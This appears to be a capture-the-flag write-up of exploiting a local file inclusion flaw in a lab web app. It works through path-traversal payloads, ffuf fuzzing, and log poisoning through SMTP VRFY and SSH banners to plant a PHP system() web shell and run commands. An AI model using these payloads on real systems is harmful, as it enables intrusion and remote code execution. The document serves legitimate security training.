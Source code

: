 # LFI + path traversal

From inspection of the network requests, I found a request that loads the profile image using a query parameter to specify the path to the file:

```http
GET /profile.php?img=profile.png HTTP/1.1
Host: xxx.xxx.xxx.xxx:50000
User-Agent: xxx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: connect.sid=xxxx
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

As found previously, the `profile.png` is present in the `/uploads` directory. Thus, it appears that the `img` query input will be used to search for a file in that directory.&#x20;

Possible path: `/var/www/html/uploads/profile.png`.

### Simple payloads

With knowledge of the current directory, I started off with simple payloads:

1. Path traversal
   * `../../../../etc/passwd`
   * `%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd`  (URL encoded)
   * `..//..//..//..//etc/passwd`
   * `%2E%2E%2F%2F%2E%2E%2F%2F%2E%2E%2F%2F%2E%2E%2F%2Fetc%2Fpasswd` (URL encoded)
2. Remote public resource
   * [https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTAx6camOf\_G96Zcs2Zj34Yjmy0ysPd-p0oJQ\&s](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTAx6camOf_G96Zcs2Zj34Yjmy0ysPd-p0oJQ\&s)



### Brute force discovery

I performed a brute force attack using `ffuf`, with the [wordlist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/JHADDIX_LFI.txt):

* Cookie: `-H "Cookie: PHPSESSID=xxxx"`&#x20;
* Filter out empty responses: `--fs 0`

{% code overflow="wrap" %}
```sh
$ ffuf -w /<wordlist> -u http://<target>:50000/profile.php?img=FUZZ -H "Cookie: PHPSESSID=xxxx" --fs 0
```
{% endcode %}

The payload: `....//....//....//....//....//....//....//....//....//etc/passwd` was found to work:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

This provides us the following information:

1. Usernames:
   * `joshua`, `charles`
2. More importantly, the server is vulnerable to a Local File Inclusion (LFI) vulnerability!

### Exploring methods of exploitation

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI-to-RCE.md" %}

Following the guide in the link above, I explored a few methods to gain RCE on the system. From the previous enumeration steps, we have found multiple open ports/services, where some of them provides use a means to escalate the LFI to RCE.

#### Log poisoning

I tried accessing the following log files (appended to found payload above):

```
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/sshd.log
/var/log/mail
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
```

#### 1. SMTP (port 25)  \~ `/var/log/syslog`

From enumeration of the _**SMTP**_ commands, I found a few that will directly log user inputs into the log file:

```sh
1. RCPT TO:<input> # requires MAIL TO:<addr> before
2. VRFY <input>
```

With this in mind, we can exploit this to achieve RCE. Let's use the _**VRFY**_ command:

```sh
VRFY <?php system($_GET['cmd']); ?>
```

Now, reading the `/var/log/syslog` via the LFI vulnerability, we are able to view the output of our command that will be executed on the vulnerable machine. With that, we have a gained a web shell. The output can be viewed with the command:

{% code overflow="wrap" %}
```sh
$ curl 'http://xxx.xxx.xxx.xxx:50000/profile.php?img=....//....//....//....//....//....//....//....//....//var/log/syslog&cmd=<command>' -H "Cookie: PHPSESSID=xxxx" --silent | tail -n 20

```
{% endcode %}

The following command allows us to read the last 20 lines of the log file. Remember to replace `<command>` with the actual command, and set the **PHPSESSID**.

We can now replace the command to look around the directory and view the contents of the text file to retrieve our final flag!

#### 2. SSH (port 22) \~ `/var/log/auth.log`&#x20;

**Username**

I attempted to send a payload via the username field to SSH:

```sh
$ ssh '<?php system('id'); ?>'@<host>
```

However, the SSH client does not allow special characters in the username.

**Identification string**

I explored another method to poison the logs via the identification string:

```sh
$ nc <host> 22
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.11
<?php system($_GET['cmd']); ?> # click enter right after
```

#### Interesting discovery

With the `img` payload value of `#` (`/profile.php?img=#`), we are presented with a status **400** response:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
